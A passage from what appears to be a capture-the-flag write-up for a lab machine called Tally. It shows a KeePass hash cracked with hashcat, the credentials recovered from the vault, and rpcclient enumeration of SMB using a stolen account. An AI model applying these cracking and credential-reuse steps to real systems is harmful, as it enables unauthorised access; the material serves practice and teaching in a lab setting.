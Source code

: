 Note that the last block is different, that's due to the transfer screw up. *Something to be aware of!*

When we actually use the correct KeePass file, it takes `hashcat` 2 seconds to find the password. 2 seconds, not 20 minutes!

```
$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da:simplementayo
```

### The Mystery of the Random Credential

OK so we have that password `simplementayo` for the KeePass file, and the question I raised earlier becomes blindly obvious...

KeePass password goes in KeePass...

![duh](duh.png)

`apt install keepass2` and use the password we just cracked. 

```
cisco:cisco123
Finance:Acc0unting
64257-56525-54257-54734:(can't access this one?)
```

There are three accounts with passwords in the KeePass file we stole from Tim, however we can't access the third one which was under the title "SOFTWARE" and "PDFWriter". Might be something to keep in the back pocket for later (is there a way to double password a KeePass file?)

Tried the "Finance" user on SMB and it let me straight in:

```
rpc -U Finance 10.10.10.59
```

Trying to access files doesn't appear to work with the "Finance" user. 

```
help

srvinfo

netshareenum (failed)

netsharegetinfo (we don't know the share name)

getusername
Account Name: Finance, Authority Name: TALLY

rpcclient $> enumprivs
found 35 privileges

SeCreateTokenPrivilege          0:2 (0x0:0x2)
SeAssignPrimaryTokenPrivilege           0:3 (0x0:0x3)
SeLockMemoryPrivilege           0:4 (0x0:0x4)
SeIncreaseQuotaPrivilege                0:5 (0x0:0x5)
SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTcbPrivilege          0:7 (0x0:0x7)
SeSecurityPrivilege             0:8 (0x0:0x8)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeLoadDriverPrivilege           0:10 (0x0:0xa)
SeSystemProfilePrivilege                0:11 (0x0:0xb)
SeSystemtimePrivilege           0:12 (0x0:0xc)
SeProfileSingleProcessPrivilege                 0:13 (0x0:0xd)
```
